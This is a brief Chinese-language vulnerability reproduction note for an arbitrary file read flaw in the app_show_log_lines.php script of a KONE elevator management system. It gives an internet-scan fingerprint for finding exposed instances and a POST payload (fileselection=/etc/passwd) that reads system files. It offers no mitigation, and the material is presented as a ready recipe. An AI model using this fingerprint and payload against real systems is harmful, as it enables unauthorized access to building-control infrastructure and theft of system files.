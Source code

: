 # KONE 通力电梯管理系统 app_show_log_lines.php 任意文件读取漏洞

## 漏洞描述

KONE 通力电梯 app_show_log_lines.php文件过滤不足导致任意文件读取漏洞

## 漏洞影响

```
KONE 通力电梯管理系统
```

## 网络测绘

```
"KONE Configuration management"
```

## 漏洞复现

主页面

![image-20220519184439370](images/202205191844461.png)

发送POST请求包

```
fileselection=/etc/passwd
```

![image-20220519184600379](images/202205191846469.png)